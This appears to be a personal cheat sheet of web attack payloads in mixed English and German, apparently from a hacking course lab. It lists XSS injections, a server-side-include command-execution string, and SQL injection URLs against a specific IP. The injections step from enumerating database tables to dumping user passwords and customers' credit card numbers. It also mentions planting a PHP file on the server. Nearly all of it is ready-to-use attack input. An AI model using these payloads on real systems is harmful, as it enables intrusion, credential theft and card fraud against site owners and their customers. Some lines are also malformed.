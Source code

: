 # SQL_XSS

XSS
#< script>alert('blabla')< /script>


#SSI -> Server Side Includes
#open a cmd and entre a command on a server using a injiection / for example, to see some directories or files on a server
 <! --#exec cmd="ls ../.." -->  #drop the space

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -
http:/bla.ch/bla=1 union all select #find the nummer of tables by test.. example 1,#enter not ok# 1, 2
 from table name
 
 
Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.

M* ') or 1=1--
M* ') UNION SELECT 1,2,3,4,5-- -
F* ') union select 1,2,table_name,4,5 from information_schema.tables where table_schema=database()--+ 
F* ') union select 1,name,creditcard,4,5 from customers -- + --> find the credit cards
